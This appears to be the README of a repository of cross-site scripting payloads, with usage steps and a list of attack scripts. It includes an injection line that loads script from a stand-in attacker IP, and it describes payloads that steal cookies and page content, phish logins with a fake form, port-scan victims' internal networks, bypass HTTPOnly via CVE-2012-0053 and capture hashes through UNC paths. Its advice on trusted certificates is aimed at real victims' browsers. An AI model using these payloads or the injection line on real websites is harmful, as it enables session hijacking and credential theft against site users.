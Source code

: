 # xss_payloads

Payloads for practical exploitation of cross site scripting.

## Usage

1. Find XSS vuln in your app
2. Get PoC exploit: alert(1) etc
3. Host these payloads somewhere
4. Use vuln to pull one of these payloads into the app `<script src="http://attackerip/file.js"></script>`
5. Profit

## js vs php files

Some of the files are plain JavaScript .js files, others are PHP scripts which serve JavaScript when rendered in order to do some more complex stuff. Make sure you have a PHP interpreter running on your web server of choice to get these to work `</obvious>`

## Common Problems

* You can't serve these over HTTP if your app is running on HTTPS. You'll need to serve them over HTTPS
* If you're running these over HTTPS for actual exploitation rather than a PoC, you'll need a proper trusted TLS cert (Let's Encrypt CA, for example) otherwise victim's browsers won't fetch the files at all. If it's for a PoC you can just temporarily trust your self signed cert.
* Hit F12 and view the debug console for any information about why a particular script might not work

## Payloads

### apache_httponly_bypass.js

Uses an excessively large cookie to exploit CVE-2012-0053 and extract HTTPOnly cookie values from the response.

### contentstealer.php

Steal the content of the current page, a specific element or another page within the same origin as the exploited web app.

### cookiestealer.php

Steal cookies from the site.

### formsubmitter.php

Grab a page from somewhere within the same origin, fill in a form on it and then submit that form.

### local_network_scan.php

Get the internal IP address of a victim and then have them do a TCP port scan of common ports on the /24 of that internal IP address.

### loginpage.php

Pop up a login page which sends the entered credentials back to this URL.

### unc_hashstealer.php

Fire up Responder.py on the same host as this script and then inject this payload. All links on the injected page will be turned into UNC paths to the same host.
